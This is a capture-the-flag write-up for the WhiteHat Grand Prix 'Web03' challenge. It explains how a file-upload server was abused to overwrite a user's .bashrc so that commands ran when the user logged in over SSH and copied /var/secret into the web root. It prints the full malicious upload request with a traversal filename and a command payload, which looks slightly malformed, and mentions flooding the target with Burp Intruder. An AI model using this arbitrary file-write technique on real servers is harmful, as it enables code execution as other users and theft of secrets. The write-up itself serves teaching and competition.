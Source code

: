 Web03
Description: manhndd is running a service file upload at web01.grandprix.whitehatvn.com, it is restored every 2 minutes. Every 1 minute after service starts, he ssh into server to check /var/secret. Can you get it?  
Note: Player shouldn't Dos web01, you can get source code and run in local  
http://web01.grandprix.whitehatvn.com/  
Solves: A lot 
Points: 100  
Team: OpenToAll  

--------------------------------------

This... was a frustrating challenge. It involves racing against every other team  
for control of a file. The short description is: we're presented with a python  
SimpleHTTPServer that also supports an upload and must win the race for control of .bashrc or .profile.  
  
The slightly longer description:  
  
You can upload any file with the key 'file':

![upload](screenshots/upload.png)

The description tells us that a user "manhndd" SSH's in every 2 minutes. When a user
connects over SSH, typically they're using bash as their shell and will load the
files ~/.profile and ~/.bashrc on connect. We are able to overwrite these two files by changing  
the filename of the upload:  

```http
POST /SimpleHTTPServerWithUpload.py HTTP/1.1
Host: web01.grandprix.whitehatvn.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; rv:11.0) like Gecko
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://files.fm/
X-File-Upload: uploadingfiles
Content-Length: 228
Content-Type: multipart/form-data; boundary=---------------------------158661620315800
Origin: https://files.fm
Connection: close

-----------------------------158661620315800
Content-Disposition: form-data; name="file"; filename="/home/manhndd/.bashrc"
Content-Type: text/html
cp /var/secret | /opt/dogs

-----------------------------158661620315800
```

![bashrc](screenshots/bashrc.png)

The issue is that every other team is going to be trying to stomp on these files.  
I put my requests into Burp Intruder and had it constantly stomp on ~/.profile  
and ~/.bashrc until the file /var/secret got copied into /opt (the root of the webserver).  
I don't have a copy of the flag anymore, but eventually a file named "dogs" appeared
in the index and the flag was WhiteHat{SHA1(file_contents)}
